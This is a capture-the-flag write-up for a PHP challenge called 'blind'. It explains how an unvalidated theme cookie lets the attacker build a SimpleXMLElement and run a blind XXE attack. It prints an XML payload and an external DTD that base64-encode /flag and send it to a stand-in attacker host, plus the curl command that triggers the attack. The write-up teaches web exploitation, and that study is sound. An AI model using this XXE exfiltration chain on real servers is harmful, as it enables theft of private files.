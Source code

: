 # blind

## Challenge

Hacking blind: http://35.207.108.241

Flag is at /flag

Difficulty estimate: Medium


## Solution

The given website shows the following PHP code:

```php
 <?php
  function __autoload($cls) {
    include $cls;
  }

  class Black {
    public function __construct($string, $default, $keyword, $store) {
      if ($string) ini_set("highlight.string", "#0d0d0d");
      if ($default) ini_set("highlight.default", "#0d0d0d");
      if ($keyword) ini_set("highlight.keyword", "#0d0d0d");

      if ($store) {
            setcookie('theme', "Black-".$string."-".$default."-".$keyword, 0, '/');
      }
    }
  }

  class Green {
    public function __construct($string, $default, $keyword, $store) {
      if ($string) ini_set("highlight.string", "#00fb00");
      if ($default) ini_set("highlight.default", "#00fb00");
      if ($keyword) ini_set("highlight.keyword", "#00fb00");

      if ($store) {
            setcookie('theme', "Green-".$string."-".$default."-".$keyword, 0, '/');
      }
    }
  }

  if ($_=@$_GET['theme']) {
    if (in_array($_, ["Black", "Green"])) {
      if (@class_exists($_)) {
        ($string = @$_GET['string']) || $string = false;
        ($default = @$_GET['default']) || $default = false;
        ($keyword = @$_GET['keyword']) || $keyword = false;

        new $_($string, $default, $keyword, @$_GET['store']);
      }
    }
  } else if ($_=@$_COOKIE['theme']) {
    $args = explode('-', $_);
    if (class_exists($args[0])) {
      new $args[0]($args[1], $args[2], $args[3], '');
    }
  } else if ($_=@$_GET['info']) {
    phpinfo();
  }

  highlight_file(__FILE__);
```

We've noticed a few suspicious things:

* Having easy access to `phpinfo()`
* Having defined an `__autoload` hook
* Using a not validated user cookie when loading a theme to instantiate a new object

With PHP 5 this would have been a really challenge, because the `__autoload` hook was triggered with `class_exists($cls)` even when the `$cls` argument wasn't a
valid PHP class name.
We would have been able to inject a class name like `/flag` which would have caused the `/flag` file to be included within the `__autoload` hook.

However, from `phpinfo()` we know that PHP 7 was used and therefore this approach was inelegible.

The second option we had was trying to *misuse* a class from the PHP default namespace.
In order to instantiate this class it must have constructor with a matching signature to the following call:

```php
new $args[0]($args[1], $args[2], $args[3], '');
```

where ...

* ... `$args[0]` is the class name
* ... `$args[1]` is the first argument
* ... `$args[2]` is the second argument
* ... `$args[3]` is the third argument
* ... an empty string is the fourth argument

The `$args` array is injectable via cookie like the following:

```
theme=args[0]-args[1]-args[2]-args[3]
```

After a little research we've discovered a suitable class: `SimpleXMLElement`.
This class is vulnerable to a XML External Entity (XXE) attack.

Thus, we can inject arbitrary XML to be executed during the constructor of `SimpleXMLElement`:

```xml
<?xml version="1.0" ?>
<!DOCTYPE blind [
<!ELEMENT blind ANY >
<!ENTITY % dtdata SYSTEM "http://our-malicious-host.tld/blind.dtd">
%dtdata;
%flagdata;
]>
<blind>&exfiltrate;</blind>
```

And the `blind.dtd`:

```xml
<!ENTITY % flag SYSTEM "php://filter/convert.base64-encode/resource=/flag">
<!ENTITY % flagdata "<!ENTITY exfiltrate SYSTEM 'http://our-malicious-host.tld/?%flag;'>">
```

For this attack we have to setup a web server at `our-malicious-host.tld` which hosts the XML and the DTD file.
In addition we can monitor the webservers access logs to see the exfiltrated flag (which is base64 encoded).

We can now simply `curl` to execute the attack:

```
curl -v --cookie 'theme=SimpleXMlElement-http://our-malicious-host.tld/blind.xml-2-true' 'http://35.207.108.241'
```
